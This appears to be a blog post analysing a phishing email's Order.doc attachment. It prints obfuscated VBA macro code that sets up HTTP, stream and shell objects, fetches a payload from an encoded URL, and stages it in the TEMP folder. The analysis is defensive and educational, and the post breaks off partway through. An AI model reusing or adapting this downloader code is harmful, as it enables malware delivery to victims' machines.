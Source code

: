 # Analyzing Some Malware from my Email

I have many of email accounts, many of which are defunct. While most of these have fallen off the face of the web, one in particular happens to still get ALOT of email, and within these emails are lots of malware.



# Analyzing Some Malware from my Email

I have many email accounts, many of which are defunct. While most of these
have fallen off the face of the web, one in particular happens to still
get ALOT of email, and within these emails are lots of malware.

I decided to spend some time taking apart some of these samples, to see what
people keep sending me!

# Order.doc

A few days ago I received this legitimate looking email...

> Dear Customerl<br/>
> <br/>
> Thank you for your recent purchase.<br/>
> <br/>
> Please find the details of your order through The Safety Supply Company attached to this email.
> <br/>
> Regards,
> <br/>
> <br/>
> The Sales Team<br/>

And attached was a file Order.doc. I extracted the Macros from the document and
found this nice section:

        Public Function OpenTarget(ByVal oDB As String) As Boolean
        Set RASTVA_1 = CreateObject(Replace("MicSiCorosoftSiCo.SiCoXMLSiCoHTTP", "SiCo", ""))
        Set RASTVA_2 = CreateObject(Replace("AdoRiCODBRiCO.RiCOStrRiCOeam", "RiCO", ""))
        Set RASTVA_3 = CreateObject(Mid("ldM3DAWSLL00((m", 7, 2) & "cri" + Left("pt.SGCANNA", 4) + "hell").Environment(Left("Pro%%hhdn", 3) + "cess")
        Set RASTVA_6 = CreateObject(Replace("SheBiCollBiCo.BiCoAppBiColicaBiCotion", "BiCo", ""))

           
I love the use of string replacement obfuscation here...If we get rid of it we see:

        Microsoft.XMLHTTP
        AdoDB.Stream
        WScript.ShellProcess
        ShellApplication
        
Further down the file we have:

        GIGNE = Array(8656, 8668, 8668, 8664, 8610, 8599, 8599, 8601, 8604, 8609, 8598, 8601, 8605, 8606, 8598, 8602, 8600, 8608, 8598, 8604, 8601, 8599, 8678, 8667, 8601, 8605, 8609, 8609, 8602, 8608, 8599, 8607, 8608, 8606, 8605, 8608, 8605, 8652, 8599, 8600, 8608, 8655, 8607, 8655, 8606, 8666, 8605, 8606, 8666, 8598, 8653, 8672, 8653)
        RASTVA_1.Open UCase(Mid("óàÎ5ger001@", 5, 2)) + "T", AddFieldToField(GIGNE, 52), False
        RASTVA_1.Send
        RASTVA_4 = RASTVA_3(Mid("AHSTECKED", 4, 2) + Right("JKHJKACMP", 2))
        RASTVA_5 = RASTVA_4 + Replace("\mostront.txt", "t", "e")
        